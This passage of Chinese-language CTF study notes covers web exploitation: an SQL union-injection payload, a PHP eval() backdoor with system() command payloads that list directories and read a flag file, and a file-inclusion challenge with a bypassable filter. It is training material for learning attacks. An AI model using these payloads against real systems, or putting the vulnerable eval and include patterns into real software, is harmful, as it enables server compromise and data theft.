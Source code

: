 接着爆破出字段的值

```
-1/**/union/**/select/**/1,group_concat(rcdoflzouj)/**/from/**/hjfkqvtzhc
```

![image-20240121023000441](E:\学习资料\网安\笔记\笔记截图\image-20240121023000441.png)

## RCE

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统

**eval执行**

打开题目环境发现是php代码

```php
<?php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
?>
```

php代码的意思为如果有“cmd”变量就执行eval($_REQUEST["cmd"]);（一个木马），__isset的作用是判断一个变量是否已设置，即变量是否以声明，其值为ture。在我们访问的时候使用变量cmd

构造payload

```
/?cmd=system("ls /");
```

![image-20240120005949436](E:\学习资料\网安\笔记\笔记截图\image-20240120005949436.png)

发现文件flag_95文件接着继续构造payload

```
/?cmd=system("cat /flag_95")
```

![image-20240120010332296](E:\学习资料\网安\笔记\笔记截图\image-20240120010332296.png)

**文件包含**

```php
<?php
    error_reporting(0);
    if (isset($_GET['file'])) {  
           if (!strpos($_GET["file"], "flag")) {
               include $_GET["file"];
           } else {
                 echo "Hacker!!!";  }
    } else {  highlight_file(__FILE__);}?>
       <hr>i have a <a href="shell.txt">shell</a>, how to use it ?
```
